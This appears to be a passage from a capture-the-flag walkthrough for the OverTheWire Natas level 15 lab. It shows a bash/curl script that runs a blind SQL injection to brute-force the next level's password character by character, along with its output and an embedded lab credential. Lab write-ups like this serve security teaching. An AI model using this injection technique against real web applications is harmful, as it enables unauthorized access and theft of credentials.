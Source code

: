 ```
    # our SQL injection is USERNAME='natas16" AND password LIKE BINARY "$PW%'
    #
    # SELECT * from users where username="natas16" AND password LIKE BINARY "$PW%"
    #
    export USERNAME="$( rawurlencode 'natas16" AND password LIKE BINARY "' )$TESTSTRING%"

    # the last echo'ed $TESTSTRING would represent the working usr/passwd combo
    echo "PASSWORD: $TESTSTRING"

    curl --silent \
      "http://natas15.natas.labs.overthewire.org/?username=$USERNAME%&debug" \
      -H 'Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==' \
      | grep "This user exists" >/dev/null

    if [ $? -eq 0 ]; then
      # if the string "This user exists." it means our user+pw combo worked
      # and we can move onto the next character
      break;
    fi
  done

done
```

```
$ ./script.sh
PASSWORD: 0
PASSWORD: 1
PASSWORD: 2
PASSWORD: 3
PASSWORD: 4
PASSWORD: 5
PASSWORD: 6
PASSWORD: 7
PASSWORD: 8

<...>

PASSWORD: WaIHEacj63wnNIBRM
PASSWORD: WaIHEacj63wnNIBRN
PASSWORD: WaIHEacj63wnNIBRO
PASSWORD: WaIHEacj63wnNIBRO0
PASSWORD: WaIHEacj63wnNIBRO1
PASSWORD: WaIHEacj63wnNIBRO2

<...>

PASSWORD: WaIHEacj63wnNIBROHeqi3p9t0m5nhmb
PASSWORD: WaIHEacj63wnNIBROHeqi3p9t0m5nhmc
PASSWORD: WaIHEacj63wnNIBROHeqi3p9t0m5nhmd
PASSWORD: WaIHEacj63wnNIBROHeqi3p9t0m5nhme
PASSWORD: WaIHEacj63wnNIBROHeqi3p9t0m5nhmf
PASSWORD: WaIHEacj63wnNIBROHeqi3p9t0m5nhmg
PASSWORD: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```
